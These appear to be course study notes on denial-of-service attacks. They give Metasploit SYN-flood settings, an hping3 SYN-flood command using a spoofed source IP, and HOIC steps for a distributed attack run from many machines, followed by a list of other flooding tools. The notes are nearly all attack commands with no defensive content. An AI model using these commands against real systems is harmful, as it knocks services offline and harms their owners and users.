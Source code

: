 # Module 10 - Denial-of-Service #

## SYN Flooding a Target ##

### Metasploit ###
``` msfconsole ```

1. ``` use auxiliary/dos/tcp/synflood ```
2. ``` show options ```, ``` set RHOST <Target IP> ```, ``` set RPORT <Open Target Port - Ex. 21> ```, ``` set SHOST <Spoofed Source IP> ```, ``` set TIMEOUT <Seconds to wait for new data - Ex. 20000> ```
3. ``` exploit ```

### Hping3 ###
``` hping3 -S <Target IP> -a <Spoofed Source IP> -p <Target Port> --flood ``` - '-S' sets the TCP SYN flag 


- - - -

## Distributed Denial-of-Service Attack ##

### High Orbit Ion Cannon (HOIC) ###
1. Set the Target, set the Power bar to 'High', select the Booster 'GenericBoost.hoic', and click 'Add'
2. Set the nº of threads - Ex. 20
3. Do the same on as many machines as you can
4. 'Fire Teh Lazer!'


### Other DoS/DDoS Tools ###

#### Low Orbit Ion Cannon (LOIC) ####
#### HULK ####
#### R-U-Dead-Yet ####
#### Tsunami ####
#### Moihack Port-Flooder ####
